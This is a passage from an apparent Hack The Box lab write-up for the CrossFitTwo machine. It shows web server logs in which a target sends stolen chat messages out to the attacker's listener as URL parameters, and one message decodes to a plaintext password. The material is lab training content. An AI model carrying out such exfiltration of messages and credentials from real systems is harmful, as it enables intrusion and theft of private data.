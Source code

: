 ```bash
[Tue Jul  8 19:39:53 2025] 10.10.10.232:13900 [404]: GET /?x={%22sender_id%22:2,%22content%22:%22Hello%20David,%20I%27ve%20added%20a%20user%20account%20for%20you%20with%20the%20password%20`NWBFcSe3ws4VDhTB`.%22,%22roomId%22:2,%22_id%22:243} - No such file or directory
[Tue Jul  8 19:39:53 2025] 10.10.10.232:13900 Closing
[Tue Jul  8 19:39:53 2025] 10.10.10.232:22012 [404]: GET /?x={%22sender_id%22:2,%22content%22:%22Hello%20David,%20I%27ve%20added%20a%20user%20account%20for%20you%20with%20the%20password%20`NWBFcSe3ws4VDhTB`.%22,%22roomId%22:2,%22_id%22:243} - No such file or directory
[Tue Jul  8 19:39:53 2025] 10.10.10.232:22012 Closing
```
{% endraw %}

If we decode the last one, we can clearly see the best message we could get.

![URL Decoding credentials](/img/htb_img/CrossFitTwo_img/18.png)

URL Decoding credentials

```bash
"sender_id":2,
"content":"Hello David, I've added a user account for you with the password `NWBFcSe3ws4VDhTB`.",
"roomId":2,
"_id":243
```
